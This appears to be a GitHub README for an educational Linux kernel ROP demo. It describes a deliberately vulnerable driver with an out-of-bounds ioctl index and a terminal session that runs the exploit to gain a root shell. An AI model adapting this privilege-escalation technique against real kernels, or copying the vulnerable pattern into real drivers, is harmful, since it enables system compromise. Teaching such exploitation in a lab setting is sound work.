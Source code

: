 # Linux Kernel ROP demo

This is a vulnerable Linux kernel driver used to demonstrate in-kernel
privilege escalation ROP (Return Oriented Programming) chain in practice. The
article URL for Part 1 is available at
https://lonerangerweb.wordpress.com/2016/06/23/linux-kernel-rop-ropping-your-way-to-part-1/
https://lonerangerweb.wordpress.com/2016/06/26/linux-kernel-rop-ropping-your-way-to-part-2/.

The driver module is vulnerable to OOB access and allows arbitrary code
execution. An arbitrary offset can be passed from user space via the provided
ioctl(). This offset is then used as the index for the 'ops' array to obtain
the function address to be executed. 
 
* drv.c - vulnerable kernel driver
* trigger.c - user-space application to trigger the OOB access via the provided
  ioctl
* find_offset.py - helper script for finding the correct offset into the "ops" array
* rop_exploit.c - ROP exploit for the "drv.c" kernel driver

The goal is to construct and execute a ROP chain that will satisfy the
following requirements:

* Execute a privilege escalation payload
* Data residing in user space may be referenced (i.e., "fetching" data from
  user space is allowed)
* Instructions residing in user space may not be executed

```
lone@ubuntu:~$ dmesg | grep addr | grep ops
[  244.142035] addr(ops) = ffffffffa02e9340
lone@ubuntu:~$ ~/find_offset.py ffffffffa02e9340 ~/gadgets 
offset = 18446744073644231139
gadget = xchg eax, esp ; ret 0x11e8
stack addr = 8108e258

lone@ubuntu:~/kernel_rop/vulndrv$ gcc rop_exploit.c -O2 -o rop_exploit
lone@ubuntu:~/kernel_rop/vulndrv$ ./rop_exploit 18446744073644231139 ffffffffa02e9340
array base address = 0xffffffffa02e9340
stack address = 0x8108e258
# id    
uid=0(root) gid=0(root) groups=0(root)
# 
```
